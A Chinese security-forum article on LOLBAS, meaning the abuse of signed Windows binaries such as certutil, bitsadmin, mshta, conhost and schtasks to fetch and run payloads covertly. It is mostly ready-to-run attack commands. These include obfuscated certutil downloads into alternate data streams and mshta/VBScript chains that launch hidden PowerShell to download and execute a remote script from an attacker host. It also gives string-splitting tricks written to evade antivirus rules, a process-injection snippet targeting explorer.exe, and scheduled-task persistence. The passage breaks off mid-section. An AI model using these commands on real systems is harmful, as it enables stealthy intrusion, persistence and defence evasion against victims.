# Windows 隐蔽执行技巧之 LOLBAS-先知社区

> **来源**: https://xz.aliyun.com/news/19107  
> **文章ID**: 19107

---

## LOLBAS介绍

LOLBAS 指的是滥用 Windows 操作系统中预装、原生且带有合法数字签名的二进制文件和脚本（如 Certutil.exe, Mshta.exe, Rundll32.exe）来执行恶意操作。由于这些工具本身是系统的一部分，它们的操作往往被传统的应用白名单（AWL）和基于签名的安全产品所信任，从而实现了极高的隐蔽性。

## LOLBAS 分类：下载与文件传输（Ingress Tool Transfer）

#### Certutil.exe (证书工具)

* 用于处理证书的 Windows 二进制文件（支持ADS）
* 支持系统：Windows Vista、Windows 7、Windows 8、Windows 8.1、Windows 10、Windows 11
* 如何利用

```
certutil.exe -urlcache -f http://192.168.176.130/load_bin.ps1 load_bin.ps1
// urlcache: 参数用于管理URL缓存
// -f: 参数后面跟着要下载文件的URL
// 有AV情况下会触发敏感动作告警
```



```
certutil.exe -verifyctl -f http://192.168.176.130/load_bin.ps1 load_bin.ps1
// verifyctl：验证 AuthRoot 或不允许的证书 CTL
// -f: 参数后面跟着要下载文件的URL
// 有AV情况下会触发敏感动作告警
```



```
certutil.exe -URL http://192.168.176.130/load_bin.ps1
// URL：用于证书服务交互
// 注意只支持GUI的Windows 10、Windows 11
// 不会触发av（仅限于**）
```



未指定文件路径时，下载可执行文件并将其保存到 %LOCALAPPDATA%lowMicrosoftCryptnetUrlCacheContent[hash] 中，其HASH是下载URL的MD5，演示的ps1是加载远程shellcode的演示脚本





实战情况下（有AV环境）利用

```
//插入符号 (^) 混淆 打断AV对certutil.exe或-urlcache等关键字的连续匹配
 # c^e^r^t^u^t^i^l^.e^x^e -f -u^r^l^c^a^c^h^e -s^p^l^i^t http://192.168.176.130/load_bin.ps1 load_bin.ps1
****  联机  ****
  0000  ...
  03b7
CertUtil: -URLCache 命令成功完成。
```



也可下载至ADS（备用数据流）

```
 # c^e^r^t^u^t^i^l^.e^x^e -f -u^r^l^c^a^c^h^e -s^p^l^i^t http://192.168.176.130/load_bin.ps1 C:\Windows\win.ini:load
****  联机  ****
  0000  ...
  03b7
CertUtil: -URLCache 命令成功完成。
```





上线可以用powershell的IEX (Invoke-Expression) 命令来读取 ADS 并执行其内容

```
powershell -NoP -Exec Bypass -C "IEX (Get-Content C:\Windows\win.ini:load -Raw)"
```





其他变形方法如下仅供参考

```
#双引号"括起来用来分割关键字
certutil.exe "-f" "-urlcache" "-split" "http://192.168.176.130/load_bin.ps1" .\load_bin.ps1
#环境变量干扰
%windir%\System32\certutil.exe -f -urlcache -split http://192.168.176.130/load_bin.ps1 .\load_bin.ps1
#绕过单一进程检测
ver && certutil.exe -f -urlcache -split http://192.168.176.130/load_bin.ps1 .\load_bin.ps1
```

#### **Bitsadmin.exe (后台智能传输服务)**

* 用于创建和管理 BITS 任务，实现网络状态不佳时的文件后台传输（支持ADS）
* 支持系统：Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
* 如何利用

```
#异步操作
bitsadmin /create 1 && bitsadmin /addfile 1 http://192.168.176.130/load_bin.ps1 C:\Users\Administrator\Desktop\load_bin.ps1 && bitsadmin /resume 1 && timeout /t 10 /nobreak > nul && bitsadmin /complete 1
```

执行流程

1. bitsadmin /create 1 (创建任务)
2. bitsadmin /addfile 1 http://... C:..load\_bin.ps1 (添加文件)
3. bitsadmin /resume 1 (开始下载到 .tmp 文件，完成状态为TRANSFERRED)
4. bitsadmin /complete 1 (等待10秒完成下载并触发重命名并完成任务)



```
#同步操作 产生效果与异步同效
bitsadmin /transfer myDownloadJob /download /priority normal http://192.168.176.130/load_bin.ps1 C:\Users\Administrator\Desktop\load_bin.ps1
```



```
type c:\windows\system32\calc.exe > C:\Windows\win.ini:calc
```

```
//复制一个已存在的文件，完成后触发SetNotifyCmdLine操作执行ADS数据流
bitsadmin /create 1 && bitsadmin /addfile 1 C:\Windows\System32\drivers\etc\hosts C:\Windows\System32\drivers\etc\hosts1 && bitsadmin /SetNotifyCmdLine 1 C:\Windows\win.ini:calc NULL  && bitsadmin /RESUME 1 && bitsadmin /complete 1
```



**调用链分析**

任务创建 父进程 cmd.exe (PID 3544) 按照 && 的顺序，依次创建 5 个 bitsadmin进程

```
19:00:16.1116760	cmd.exe	3544	Process Create	C:\Windows\system32\bitsadmin.exe	SUCCESS	PID: 1040, Command line: bitsadmin  /create 1 
19:00:16.1460090	cmd.exe	3544	Process Create	C:\Windows\system32\bitsadmin.exe	SUCCESS	PID: 3844, Command line: bitsadmin  /addfile 1 C:\Windows\System32\drivers\etc\hosts C:\Windows\System32\drivers\etc\hosts1 
19:00:16.1798691	cmd.exe	3544	Process Create	C:\Windows\system32\bitsadmin.exe	SUCCESS	PID: 5896, Command line: bitsadmin  /SetNotifyCmdLine 1 C:\Windows\win.ini:calc NULL  
19:00:16.2242280	cmd.exe	3544	Process Create	C:\Windows\system32\bitsadmin.exe	SUCCESS	PID: 4888, Command line: bitsadmin  /RESUME 1 
19:00:16.2578110	cmd.exe	3544	Process Create	C:\Windows\system32\bitsadmin.exe	SUCCESS	PID: 5536, Command line: bitsadmin  /complete 1
```

任务触发 父进程svchost.exe (PID 1132)是 Windows 系统中承载各种后台服务（包括 BITS 服务）的宿主进程，BITS 服务通过创建子进程：C:Windowswin.ini:calc (PID 3752)启动隐藏在备用数据流中的程序

```
19:00:16.2924903	svchost.exe	1132	Process Create	C:\Windows\win.ini:calc	SUCCESS	PID: 3752, Command line: "C:\Windows\win.ini:calc"
```

系统通过 sihost.exe 将其重定向到新版计算器应用 CalculatorApp.exe

```
19:00:16.5147504	sihost.exe	2976	Process Create	C:\Program Files\WindowsApps\Microsoft.WindowsCalculator_11.2502.2.0_x64__8wekyb3d8bbwe\CalculatorApp.exe	SUCCESS	PID: 1524, Command line: "C:\Program Files\WindowsApps\Microsoft.WindowsCalculator_11.2502.2.0_x64__8wekyb3d8bbwe\CalculatorApp.exe"
```



以上操作均不会触发敏感动作告警

## LOLBAS 分类：代理执行（Proxy Execution）

#### Mshta.exe (HTML应用程序)

* Windows 用它来执行 html 应用程序（.hta）
* 支持系统：Windows Vista、Windows 7、Windows 8、Windows 8.1、Windows 10、Windows 11
* 如何利用

执行HTA内嵌的 VBScript 代码

```
mshta.exe "C:\Users\Administrator\Desktop\calc.hta"
```

calc.hta文件内容

```
<html>
  <head>
    <HTA:Application
      ShowInTaskbar="no"
      Caption="no"
      Windowstate="minimize"
      Border="none"
      />

      <script language="VBScript">
        Sub RunPayload()
        Set shell = CreateObject("WScript.Shell")
          shell.Run "calc.exe", 0, False
          window.close
          End Sub
          </script>

  </head>
  <body onload="RunPayload">
  </body>
</html>
```



或使用内联脚本但貌似会告警

```
mshta.exe javascript:a=(new ActiveXObject("WScript.Shell")).Run("notepad.exe",0);window.close();
```

搭配powershell可以做到无文件落地上线，但貌似也会告警

```
//mshta会启动VBScript
//VBScript静默启动powershell
//powershell执行远端的ps1脚本
mshta.exe vbscript:Execute("CreateObject(""WScript.Shell"").Run ""powershell.exe -NoP -NonI -W Hidden -Exec Bypass -C """"IEX(New-Object Net.WebClient).DownloadString('http://192.168.176.130/load_bin.ps1')"""""", 0, True:close")
```



既然触发防护项目是powershell，稍微对命令进行变形

```
//将Hidden替换成0
mshta.exe vbscript:Execute("CreateObject(""WScript.Shell"").Run ""powershell.exe -W 0 -ep Bypass -c """"iex ((new-object net.webclient).('Downl'+'oadString').Invoke('http://192.168.176.130/load_bin.ps1'))"""""", 0, True:close")
```

```
#或者使用全称-WindowStyle
mshta.exe vbscript:Execute("CreateObject(""WScript.Shell"").Run ""powershell.exe -WindowStyle 0 -ep Bypass -c """"iex ((new-object net.webclient).('Downl'+'oadString').Invoke('http://192.168.176.130/load_bin.ps1'))"""""", 0, True:close")
```



**调用链分析**

(初始代理) cmd.exe (PID 6712) ----> (创建进程) mshta.exe 作为执行代理，通过 VBScript 启动下一阶段载荷

```
20:33:15.9162165	cmd.exe	6712	Process Create	C:\Windows\system32\mshta.exe	SUCCESS	PID: 2252, Command line: mshta.exe  vbscript:Execute("CreateObject(""WScript.Shell"").Run ""powershell.exe -WindowStyle 0 -ep Bypass -c """"iex ((new-object net.webclient).('Downl'+'oadString').Invoke('http://192.168.176.130/load_bin.ps1'))"""""", 0, True:close")
```

(引擎启动) mshta.exe (PID 2252) ----> (创建进程) mshta.exe 解析 VBScript 后，静默启动 PowerShell 引擎

```
20:33:16.2451194	mshta.exe	2252	Process Create	C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe	SUCCESS	PID: 1552, Command line: "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -WindowStyle 0 -ep Bypass -c "iex ((new-object net.webclient).('Downl'+'oadString').Invoke('http://192.168.176.130/load_bin.ps1'))"
```

(动态编译) powershell.exe (PID 1552) ----> (创建进程) PowerShell 脚本执行后，调用 .NET 框架自带的 C# 编译器 csc.exe，实现在野编译

```
20:33:20.2021131	powershell.exe	1552	Process Create	C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe	SUCCESS	PID: 3528, Command line: "C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe" /noconfig /fullpaths @"C:\Users\Administrator\AppData\Local\Temp\c3ixsyra\c3ixsyra.cmdline"
```

(资源处理) csc.exe (PID 3528) ----> (创建进程) C# 编译器的正常后续动作，启动资源处理工具 cvtres.exe

```
20:33:20.2681085	csc.exe	3528	Process Create	C:\Windows\Microsoft.NET\Framework64\v4.0.30319\cvtres.exe	SUCCESS	PID: 6508, Command line: C:\Windows\Microsoft.NET\Framework64\v4.0.30319\cvtres.exe /NOLOGO /READONLY /MACHINE:IX86 "/OUT:C:\Users\ADMINI~1\AppData\Local\Temp\RES2E71.tmp" "c:\Users\Administrator\AppData\Local\Temp\c3ixsyra\CSCB93C43CED6FF49EC8543FC568FE8BE.TMP"
```



#### Conhost.exe (控制台窗口主机)

* 命令行程序的宿主进程
* 支持系统：Windows 10, Windows 11
* 如何利用

conhost.exe 作为父进程执行cmd打开计算器，会有黑框停留1~3秒钟

```
conhost.exe cmd /c c:\windows\system32\calc.exe
```



使用--headless参数来隐藏刚刚的黑框

```
conhost.exe --headless cmd /c c:\windows\system32\calc.exe
```



这个同样可以搭配powershell做到无文件落地上线，同样需要对powershell关键词做处理不然会告警

```
C:\windows\system32\conhost.exe conhost conhost conhost conhost conhost conhost powershell.exe -NoP -NonI -W Hidden -Exec Bypass -C """"IEX(New-Object Net.WebClient).DownloadString('http://192.168.176.130/load_bin.ps1')""""
```



下面这两个都可以用，防护规则会检测**Net.WebClient.下载类**所以替换成别的类实现下载就行了

```
C:\windows\system32\conhost.exe conhost conhost conhost conhost conhost conhost conhost conhost powershell.exe -NoP -NonI -W 0 -Exec Bypass -C "IEX(Invoke-RestMethod -Uri 'http://192.168.176.130/load_bin.ps1')"
```

```
C:\windows\system32\conhost.exe conhost conhost conhost conhost conhost conhost conhost conhost powershell.exe -NoP -NonI -W 0 -Exec Bypass -C "$wc=New-Object Net.WebClient; $cmd='Down'+'loadString'; IEX($wc.$cmd.Invoke('http://192.168.176.130/load_bin.ps1'))"
```

唯一的缺陷可能是这个黑乎乎的powershell窗口



如果不想要黑窗口可以对命令或脚本进行改进，这里给出两个思路

1. 通过powershell操作WMI(WmiPrvSE.exe)它没有形体UI
2. PowerShell加载器增加进程注入然后销毁自身

展示下第二个思路

```
# 选择explorer.exe作为宿主
try { $p = (Get-Process explorer).Id } catch { return }

# 调用OpenProcess 0x1F0FFF (即 PROCESS_ALL_ACCESS)，表明所有访问权限
$h = [N]::OpenProcess(0x1F0FFF, $false, $p)

# 分配并写入内存
$m = [N]::VirtualAllocEx($h, [IntPtr]::Zero, $d.Length, 0x1000, 0x40)
[IntPtr]$bw = 0
[N]::WriteProcessMemory($h, $m, $d, $d.Length, [ref]$bw)

#执行
[N]::CreateRemoteThread($h, [IntPtr]::Zero, 0, $m, [IntPtr]::Zero, 0, [IntPtr]::Zero)
```



## LOLBAS 分类：持久化操作（Persistence operations）

#### Schtasks.exe (计划任务命令)

* 命令行工具用于创建、删除、查询和管理本地或远程计算机的计划任务
* 支持系统：Windows 7、Windows 8、Windows 8.1、Windows 10、Windows 11
* 如何利用

每天每隔1分钟触发1次程序

```
#/create 创建新任务
#/sc指定计划类型（分钟 vs 每天）
#/mo 每 1 分钟
#/tn 任务名
#/tr 触发命令
schtasks /create /sc minute /mo 1 /tn "Reverse shell" /tr "cmd /c c:\windows\system32\calc.exe"
```



如果不指定时间那么就是每天的创建时间来触发运行

```
#多个/s 指定远程计算机 支持域/工作组环境
#/u /p 用户和密码
#/s 支持写IP形式
